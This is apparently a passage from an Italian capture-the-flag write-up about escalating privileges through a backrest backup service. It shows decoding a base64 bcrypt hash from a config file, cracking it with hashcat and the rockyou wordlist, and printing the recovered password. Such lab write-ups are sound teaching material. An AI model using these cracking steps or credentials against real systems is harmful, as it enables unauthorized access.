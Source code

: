 Sembrerebbe essere un file di configurazione per il servizion **backrest**. 

Il file contiene le credenziali dell'utente **backrest_root**.

```bash

$ echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO                                                                                                                                                                        
$ echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d > backrest_root.hash

```

Si utilizza **HashCat** per il cracking della password.

```bash

$ hashcat -a 0 -m 3200 backrest_root.hash /usr/share/wordlists/rockyou.txt.gz --show
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^

```

Si ottengono le seguenti credenziali:

- `backrest_root:!@#$%^`

Dalla documentazione di *backrest* si scopre che si puo' accedere al servizio dal URL `http://localhost:9898` e che utilizza `systemctl`. 

```bash

gael@artificial:~$ ss -l | grep 9898
tcp     LISTEN   0        4096                                        127.0.0.1:9898                                  0.0.0.0:* 

gael@artificial:~$ systemctl status backrest.service 
● backrest.service - Backrest Service
     Loaded: loaded (/etc/systemd/system/backrest.service; enabled; vendor preset: enabled)
     Active: active (running) since Sat 2025-08-30 14:00:01 UTC; 5min ago
   Main PID: 27484
      Tasks: 7 (limit: 4550)
     Memory: 11.4M
     CGroup: /system.slice/backrest.service
             └─27484 /usr/local/bin/backrest

```

Continuando l'analisi si nota che **/usr/local/bin/backrest** possiede i privilegi di **root**.
